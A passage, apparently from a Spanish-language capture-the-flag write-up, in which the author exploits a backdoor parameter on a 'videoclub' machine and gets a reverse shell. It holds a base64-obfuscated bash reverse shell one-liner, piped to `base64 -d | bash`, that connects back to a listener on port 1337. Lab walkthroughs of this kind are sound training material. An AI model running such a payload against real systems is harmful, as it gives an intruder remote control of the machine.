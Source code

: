 Pruebo con el comando `id` y consigo ejecución de comandos con el parámetro `f1ynn`.

![](/images/images-shelldredd/videoclub36.png)

Formo una reverse shell en base64.

![](/images/images-shelldredd/videoclub37.png)

Me pongo en escucha por el puerto 1337.

![](/images/images-shelldredd/videoclub38.png)

Y hago que el backdoor desencripte la cadena en base64 y la ejecute.

```
echo YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjkxLzEzMzcgMD4mMScK | base64 -d | bash
```

![](/images/images-shelldredd/videoclub39.png)
